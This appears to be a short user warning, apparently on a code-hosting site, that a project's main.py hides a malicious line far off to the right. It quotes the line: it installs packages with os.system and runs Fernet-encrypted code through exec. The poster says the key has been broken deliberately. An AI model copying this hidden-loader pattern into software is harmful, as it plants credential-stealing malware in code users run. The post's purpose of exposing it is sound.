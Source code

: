 Open main.py
At the bottom of the page you will find a scroll bar, go to the rightmost edge, you will see a line like this:
;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'IJY_o6Fa4dbWlKcLlSQ='). decrypt(b'gAAAAAABm3L5fpY-HbIAOc4yo0hde27lhlkXKiMuwYmLgJeD0Rt4YQnrjVcO1mZW4povXy_8iu3bcZEt9pkF6H8NTZNH6zRxMe7NDG-. 7Ttg6bWCY5qkD6sq1PTN3i9pQzTXtUdNokqxSAAZJe4wDp_qdh2sVSH8ICpkNx0r3OQFwZD4BDqBJRsPbNI_lXXXBXylhl2ThTVUj9KDIXx3dimDjqJH78Qmuz7w=='))

This tells us that the creator is trying to steal your data, please be vigilant!!!!

I broke the decryption key on purpose so that no one could accidentally run this data styler!
